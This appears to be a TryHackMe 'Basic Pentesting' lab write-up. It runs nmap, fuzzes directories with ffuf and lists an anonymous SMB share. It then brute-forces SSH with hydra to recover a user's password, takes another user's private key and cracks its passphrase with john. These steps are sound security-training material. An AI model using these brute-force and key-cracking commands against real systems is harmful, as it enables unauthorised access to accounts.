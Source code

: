 ```yaml
---
title: TryHackMe | Basic Pentesting
author: Zeropio
date: 2022-09-24
categories: [Pentesting, TryHackMe]
tags: [thm, linux]
permalink: /pentesting/tryhackme/basic-pentesting
---
```


# Foothold

The nmap show:

```
PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 db:45:cb:be:4a:8b:71:f8:e9:31:42:ae:ff:f8:45:e4 (RSA)
|   256 09:b9:b9:1c:e0:bf:0e:1c:6f:7f:fe:8e:5f:20:1b:ce (ECDSA)
|_  256 a5:68:2b:22:5f:98:4a:62:21:3d:a2:e2:c5:a9:f7:c2 (ED25519)
80/tcp  open  http        Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
```

In the webserver we found a plain html:

![Untitled](/assets/img/tryhackme/rooms/basic-pentesting/Untitled.png)

We can try fuzzing:

```console
zero@pio$ ffuf -c -w /usr/share/seclists/Discovery/Web-Content/raft-large-directories.txt -u 'http://10.10.70.66/FUZZ'

	development             [Status: 301, Size: 316, Words: 20, Lines: 10, Duration: 65ms]
	server-status           [Status: 403, Size: 299, Words: 22, Lines: 12, Duration: 82ms]
	                        [Status: 200, Size: 158, Words: 20, Lines: 11, Duration: 383ms]
```

There we can see some files talking about the smb. We can try listing it:

```console
zero@pio$ smbclient -N -L \\\\10.10.70.66\\                                                                

	        Sharename       Type      Comment
	        ---------       ----      -------
	        Anonymous       Disk      
	        IPC$            IPC       IPC Service (Samba Server 4.3.11-Ubuntu)
	Reconnecting with SMB1 for workgroup listing.
	
	        Server               Comment
	        ---------            -------
	
	        Workgroup            Master
	        ---------            -------
	        WORKGROUP            BASIC2
```

We see an **Anonymous** folder. We can see it:

```console
zero@pio$ smbclient -N \\\\10.10.70.66\\Anonymous
	Try "help" to get a list of possible commands.
smb: \> ls
	  .                                   D        0  Thu Apr 19 18:31:20 2018
	  ..                                  D        0  Thu Apr 19 18:13:06 2018
	  staff.txt                           N      173  Thu Apr 19 18:29:55 2018
	
	                14318640 blocks of size 1024. 11087744 blocks available
smb: \> get staff.txt
```

Also, we can run `enum4linux` to see that info.

---

# Fingerprint

We the user now we can try bruteforcing into the ssh:

```console
zero@pio$ hydra -l jan -P /usr/share/wordlists/rockyou.txt ssh://10.10.70.66/ -t 4

	[22][ssh] host: 10.10.70.66   login: jan   password: armando
```

---

# Privilege Escalation

We found the other user in the system. There, we can see the `.ssh`{: .filepath} folder:

```console
jan@basic2:~$ ls -la ../kay/.ssh
	total 20
	drwxr-xr-x 2 kay kay 4096 Apr 23  2018 .
	drwxr-xr-x 5 kay kay 4096 Apr 23  2018 ..
	-rw-rw-r-- 1 kay kay  771 Apr 23  2018 authorized_keys
	-rw-r--r-- 1 kay kay 3326 Apr 19  2018 id_rsa
	-rw-r--r-- 1 kay kay  771 Apr 19  2018 id_rsa.pub
```

If we use the **id_rsa** we found that we need a passphrase. 

```console
zero@pio$ ssh kay@10.10.70.66 -i id_rsa
	Enter passphrase for key 'id_rsa':
```

We can use `john` for this:

```console
zero@pio$ ssh2john id_rsa > john_rsa
zero@pio$ john --wordlist=/usr/share/wordlists/rockyou.txt john_rsa
```

With it we can now log in in the system as **kay**.